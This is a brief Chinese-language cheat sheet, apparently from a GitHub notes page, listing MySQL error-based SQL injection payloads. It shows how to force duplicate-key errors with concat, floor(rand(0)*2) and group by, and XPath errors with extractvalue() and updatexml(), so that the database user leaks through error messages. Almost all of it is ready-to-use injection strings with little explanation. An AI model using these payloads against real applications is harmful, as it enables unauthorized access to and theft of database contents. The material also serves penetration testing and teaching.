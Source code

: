 ### concat, rand, floor 导致的重复主键错误

基本型：

```
select * from users where id=1 and (select 1 from (select concat(user(), floor(rand(0)*2))x, count(*) from information_schema.tables group by x)a);
```

由于rand的浮动，导致每次where的查询不一致造成。

### extractvalue(), updatexml() 导致Xpath路径错误

`extractvalue(str, xpath)`基本型：

```
select * from users where id=1 and (extractvalue(1,user()));

select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```

注意的是mysql版本应该大于`5.1.5`
`updatexml(str, xpath, str)`基本型：

```
select * from users where id=1 and (updatexml(1,user(),1));

select * from users where id=1 and (updatexml(1, concat(user()),1));
```

 

